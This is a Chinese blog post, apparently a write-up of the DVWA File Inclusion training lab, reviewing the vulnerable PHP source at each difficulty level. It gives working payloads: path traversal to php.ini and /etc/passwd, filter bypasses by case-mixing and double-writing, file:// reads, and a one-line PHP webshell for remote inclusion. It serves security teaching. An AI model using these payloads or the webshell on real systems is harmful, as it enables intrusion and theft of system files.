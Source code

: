 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

## Low
#### 源码审查
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```
> 服务器对page参数没有做任何过滤检查

![gFlzS.png](https://s3.jpg.cm/2021/02/19/gFlzS.png)

> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用
###### 0x01 分析
&emsp;&emsp;尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

&emsp;&emsp;说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

&emsp;&emsp;因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
> ![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
> &emsp;&emsp;发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
&emsp;&emsp;在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```bash
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```

## Medium
#### 源码审查
&emsp;&emsp;将输入的url参数中包含的“http://”、“https://”, “. . /” , ". . ""等字符串替换成空的字符串，
即过滤了远程文件包含, 对于绝对路径和本地文件包含并没有任何过滤。当然也可以用大小写或者双写的方式绕过。
```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
?> 
```
#### 攻击方式
构造payload
```php
page=/etc/passwd
page=hTTp://www.baidu.com
page=hthttp://tp://www.baidu.com
```
![gFVIW.png](https://s3.jpg.cm/2021/02/19/gFVIW.png)

![gFuhO.png](https://s3.jpg.cm/2021/02/19/gFuhO.png)

## High
#### 源码审查

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
![2ijX8.png](https://s3.jpg.cm/2021/03/12/2ijX8.png)
构造payload
```php
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=file:///etc/apache2/apache2.conf
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=file4.php
http://aac53b825fac44e39d4d050d00135c36.app.mituan.zone/vulnerabilities/fi/?page=fileabc../../../../../../../etc/passwd
```

## impossible
#### 源码审查
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

给了指定的访问页面，无法文件包含